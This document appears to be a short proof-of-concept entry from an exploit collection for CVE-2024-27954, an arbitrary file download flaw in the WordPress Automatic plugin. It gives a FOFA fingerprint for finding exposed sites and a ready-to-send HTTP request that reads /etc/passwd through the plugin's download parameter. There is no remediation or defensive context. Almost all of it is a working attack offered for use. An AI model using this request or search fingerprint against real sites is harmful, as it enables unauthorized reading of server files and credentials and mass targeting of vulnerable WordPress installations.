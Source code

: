 ## WordPress Automatic Plugin任意文件下载漏洞(CVE-2024-27954)

## fofa
```
"/wp-content/plugins/wp-automatic"
```

## poc
```
GET /?p=3232&wp_automatic=download&link=file:///etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```

![8053915951936ca9109843fe4c581ce4](https://github.com/wy876/POC/assets/139549762/f5c6497f-29f9-47de-aa15-f072541a1d1b)

